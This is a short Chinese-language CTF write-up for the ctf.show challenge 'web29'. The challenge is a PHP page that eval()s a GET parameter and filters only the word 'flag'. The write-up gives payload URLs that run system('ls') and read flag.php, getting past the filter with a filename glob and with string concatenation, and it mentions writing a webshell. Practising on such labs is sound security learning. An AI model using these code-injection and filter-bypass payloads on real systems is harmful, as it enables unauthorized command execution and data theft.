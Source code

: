 # web29

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

题目接收`c`参数，并且拦截规则是不分大小写检测`flag`关键词

可以先尝试列出当前目录

```plaintext
https://1fcd81c8-f80a-4a48-a3d3-f29608634bb3.challenge.ctf.show/?c=system("ls");

-rw-r--r-- 1 www-data www-data 280 Feb 24 09:38 flag.php
-rw-r--r-- 1 www-data www-data 377 Sep 3 2020 index.php
```

![img](img/image_20250252-175246.png)

然后，基于shell的特性，可以尝试文件名匹配

```plaintext
https://1fcd81c8-f80a-4a48-a3d3-f29608634bb3.challenge.ctf.show/?c=system("cat fl*g.php");
```

![img](img/image_20250254-175409.png)

当然，字符串拼接也是可以的

```plaintext
https://1fcd81c8-f80a-4a48-a3d3-f29608634bb3.challenge.ctf.show/?c=system("cat fl"."ag.php");
```

![img](img/image_20250255-175539.png)

甚至写一个webshell也是可以的，这里不加赘述

